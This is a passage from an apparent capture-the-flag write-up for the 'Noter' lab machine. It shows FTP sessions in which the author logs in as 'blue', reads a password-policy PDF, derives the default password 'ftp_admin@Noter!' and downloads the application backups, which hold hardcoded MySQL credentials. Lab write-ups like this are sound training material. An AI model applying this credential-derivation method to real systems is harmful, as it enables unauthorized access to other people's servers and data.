 <p>We are now able to login to the FTP server with the blue user.</p>

```sh
┌─[jayden@JD-Desktop]─[~/ctf/noter]
└──╼ $ftp 10.10.11.160
Connected to 10.10.11.160.
220 (vsFTPd 3.0.3)
Name (10.10.11.160:jayden): blue
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1002     1002         4096 May 02 23:05 files
-rw-r--r--    1 1002     1002        12569 Dec 24 20:59 policy.pdf
226 Directory send OK.
ftp> 
```

<p>After downloading policy.pdf, it tells us the password policies for the organisation. Under "Password Creation" line 4, it indicates</p>

```sh
4. Default user-password generated by the application is in the format of "username@site_name!" (This applies to all your applications)

```

<p>The other username we got was from the note, "ftp_admin". This would make the default ftp_admin password "ftp_admin@Noter!" lets try this on the FTP server.</p>

```sh
┌─[jayden@JD-Desktop]─[~/ctf/noter]
└──╼ $ftp 10.10.11.160
Connected to 10.10.11.160.
220 (vsFTPd 3.0.3)
Name (10.10.11.160:jayden): ftp_admin
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 1003     1003        25559 Nov 01  2021 app_backup_1635803546.zip
-rw-r--r--    1 1003     1003        26298 Dec 01 05:52 app_backup_1638395546.zip
226 Directory send OK.
ftp> 
```

<p>Sure enough it works! Lets download these zips, as they look to be the source code for this server. 
Under the app_backup_1635803546.zip/app.py we can see the MySQL credentials hardcoded into the file, note these for later.</p>
